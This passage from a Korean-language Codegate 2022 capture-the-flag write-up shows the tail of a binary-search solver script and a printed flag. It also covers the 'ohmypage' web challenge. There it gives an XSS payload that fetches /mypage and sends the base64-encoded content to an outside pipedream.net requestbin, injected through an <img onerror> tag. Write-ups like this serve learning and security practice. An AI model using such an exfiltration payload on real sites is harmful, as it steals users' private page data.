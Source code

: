 ```python
        high=mid-1
    elif b"UP" in out:
        print("UP")
        low=mid+1
    else:
        low=1
        high=1000000000000
        # r.interactive()
        
# codegate20
# 22{483d5dbac7263
# ccc95f0978dad75a
# ca2f802c9031a36d
# c4971ac01dd7fbf7
# 3072b34f56ad4404
# 222eaf6ca0a68dfb
# 998bb80}··
```

이분탐색 알고리즘으로 찾으면 된다.

너무 오래걸려서 pyjail 문제일지도 몰라서 끄고 해보려는데 플래그가 나왔다

---

# `web`

---

## ohmypage

```jsx

fetch('/mypage').then(function(r){return r.text()}).then(function(x){window.location.replace('https://eordt9igpz30nym.m.pipedream.net/'+btoa(x))})
```

위와 같이 fetch 로 mypage로 요청을 보낸 후, response data 를 requestbin 으로 보내면 flag 가 들어있다.

처음에는 단순히 쿠키를 보내려 했지만, mypage 에 있는 문구가 나오길래

mypage 리턴값을 서버로 보냈다.

`<img src=x onerror=~ />` → ~ 부분에 자바스크립트 코드 넣고 url encoding 해서 report